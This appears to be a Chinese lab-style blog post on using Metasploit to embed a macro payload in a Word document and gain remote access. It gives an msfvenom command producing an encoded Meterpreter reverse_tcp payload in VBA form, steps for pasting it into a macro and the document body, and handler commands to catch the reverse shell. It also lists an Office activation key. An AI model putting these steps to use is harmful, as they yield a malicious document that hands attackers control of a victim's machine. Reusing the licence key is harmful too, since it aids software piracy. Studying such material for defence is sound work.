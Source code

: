 ```yaml
---
title: "宏感染word文档获取权限"
date: 2020-02-24T19:17:28+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


Metasploit利用宏感染word文档获取权限

<!--more-->



##  实验步骤

* 安装office

  >office的激活码: DBXYD-TF477-46YM4-W74MH-6YDQ8

* 生成宏代码

  ~~~
  msfvenom -a x86 --platform windows  -p windows/meterpreter/reverse_tcp -i 10 -e x86/shikata_ga_nai LHOST=192.168.1.130 LPORT=4444 -f vba-exe
  ~~~

* 新建宏 

* 复制第一段代码内容到宏编辑器中，保存后关闭宏编辑器窗口

* 复制第二段代码到word正文，然后保存文档

* 启动msf配置监听

~~~
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.130
run
background
sessions
~~~

* 目标机允许运行宏
